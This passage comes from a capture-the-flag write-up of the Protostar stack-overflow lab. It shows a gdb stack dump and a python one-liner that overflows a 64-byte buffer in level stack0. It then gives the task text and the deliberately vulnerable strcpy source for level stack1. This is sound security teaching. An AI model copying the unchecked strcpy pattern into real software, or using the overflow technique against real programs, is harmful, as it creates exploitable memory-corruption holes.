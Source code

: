 ``` shell
(gdb) break *0x08048411
Breakpoint 1 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) r
Starting program: /opt/protostar/bin/stack0
AAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff854) at stack0/stack0.c:13
...
(gdb) x/24wx $esp
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      0x41414141
0xbffff760:     0x41414141      0x08004141      0xbffff778      0x080482e8
0xbffff770:     0xb7ff1040      0x08049620      0xbffff7a8      0x08048469
0xbffff780:     0xb7fd8304      0xb7fd7ff4      0x08048450      0xbffff7a8
0xbffff790:     0xb7ec6365      0xb7ff1040      0x0804845b      0x00000000
(gdb) x/wx $esp+0x5c
0xbffff79c:     0x00000000
```

After a quick inspection into the stack using `gdb`, our input is stored at `0xbffff75c`, and if you take a closer look, towards the end, you will find the **modified** variable which is 0. So, I just need to overflow the input into  the **modified** variable and we are done. 

Our input's length should be 16 * 4 + 1 byte of data, which is one byte more than the size of **buffer** variable.

```shell
user@protostar:/opt/protostar/bin$ python -c 'print "A" * (16 * 4) + "B"' | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```

## Stack 1

Description:

>This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.
>
>This level is at /opt/protostar/bin/stack1
>
>Hints
>
>- If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
>- Protostar is little endian

Source code:

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

```